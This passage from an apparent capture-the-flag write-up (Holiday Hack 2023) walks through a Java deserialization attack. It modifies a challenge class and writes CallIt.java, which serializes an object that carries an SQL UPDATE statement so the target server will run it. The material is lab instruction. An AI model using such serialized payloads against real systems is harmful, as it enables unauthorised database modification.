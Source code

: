 Now slightly modify the original `getpathOrStatement` method in `SatelliteQueryFileFolderUtility.java` to return all calling parameters:<br/>

![Modified Java](../img/objectives/o22/modifiedjava.jpg)

Prior to running the function, you might also need to install [Google Gson JAR](https://www.geeksforgeeks.org/how-to-install-gson-module-in-java/) to allow full functionality of `SatelliteQueryFileFolderUtility.java`.
Now run `PrintIt.java` from [Eclipse IDE](https://eclipseide.org/) and observe confirmed values for calling parameters `pathOrStatement`, `isQuery`  and `isUpdate` in that order:

![Parameters](../img/objectives/o22/params.jpg)

This basically tells us that the `object` was calling this function to get output of `/opt/SatelliteQueryFileFolderUtility.java`.
If we can change object to an update query, we should be able to insert it into the table since we have `INSERT` privileges and the query would get executed.
Let's create `CallIt.java`

```java linenums="1" title="CallIt.java"
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;


public class CallIt {

	public static void main(String[] args) throws IOException, ClassNotFoundException { 
   
	    // Write
	    File f_write = new File("F:\\hacking\\HHC2023\\space\\java_out");
	    
        //Update Statement
	    SatelliteQueryFileFolderUtility mySatellite = new SatelliteQueryFileFolderUtility("update pointing_mode set numerical_mode=1 where id=1;", true, true);
	    
        //Output to file
	    FileOutputStream fos = new FileOutputStream(f_write);
	    ObjectOutputStream oos = new ObjectOutputStream(fos);
	    oos.writeObject(mySatellite);
	    oos.close();

	}
}
```
